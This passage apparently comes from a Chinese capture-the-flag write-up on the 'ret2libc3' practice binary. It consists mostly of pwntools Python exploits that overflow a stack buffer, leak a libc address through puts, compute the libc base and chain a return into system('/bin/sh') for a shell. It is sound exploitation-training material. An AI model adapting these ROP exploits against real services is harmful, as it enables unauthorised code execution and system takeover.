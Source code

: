 ```python

system = libc_base + 0x0044620

rop2 = [
    gets_plt,
    system,
    buf2,
    buf2,
]
r.sendline(''.join(map(p32, rop2)))
r.sendline('/bin/sh\x00')
r.interactive()
```

带哥给的 exp 里直接返回到 main 函数再次溢出，不过这里的偏移又不一样了，所以要再调试到那算一下。

```python
##coding=utf8
from pwn import *

r = process('./ret2libc3')
ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
gets_plt = ret2libc3.plt['gets']
setvbuf_got = ret2libc3.got['setvbuf']
main = ret2libc3.symbols['main']

rop = [
    puts_plt,
    main,
    setvbuf_got,
]

r.sendlineafter('Can you find it !?', 'a'*112 + ''.join(map(p32, rop)))
setvbuf = r.recvline()
print 'recv: ', ":".join("{:x}".format(ord(c)) for c in setvbuf)

setvbuf_offset = 0x006fd30
libc_base = u32(setvbuf[:4]) - setvbuf_offset
print 'libc base:', hex(libc_base)

system = libc_base + 0x0044620
bin_sh = libc_base + 0x00188406

rop2 = [
    system,
    0xdeadbeef,
    bin_sh
]

r.sendlineafter('Can you find it !?', 'a'*104 + ''.join(map(p32, rop2)))
r.interactive()
```
